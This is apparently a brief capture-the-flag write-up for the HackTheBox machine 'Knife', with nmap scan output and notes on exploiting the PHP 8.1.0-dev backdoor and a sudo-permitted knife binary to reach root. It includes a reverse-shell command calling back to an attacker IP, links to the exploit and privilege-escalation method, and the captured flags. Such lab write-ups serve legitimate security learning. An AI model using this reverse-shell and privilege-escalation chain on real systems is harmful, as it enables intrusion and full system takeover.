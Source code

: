 ### Scan
```
└─# nmap -sVC -p- --open 10.10.10.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 06:50 EDT
Nmap scan report for 10.10.10.242
Host is up (0.13s latency).
Not shown: 65027 closed tcp ports (reset), 506 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.35 seconds
```
### Enum
Nothing gives. Wappalyzer to rescue. PHP 8.1.0-dev with RCE
Searchplsoit out the box works
backdoor
sudo -l funnels us to knife
GTFOBINS ftw to upgrade.
Doesnt work. got better script from git after trying manually https://github.com/flast101/php-8.1.0-dev-backdoor-rce
`python3 revshell_php_8.1.0-dev.py http://knife.htb 10.10.14.11 9999`
revshell now instead of backdoor. try gtfo https://gtfobins.github.io/gtfobins/knife/
boom
USER:a0cfa4a8c7b226a6cc2424b0bdb4b6ee
ROOt:7e22633bd6cf3cdbe94295e26a2a8874
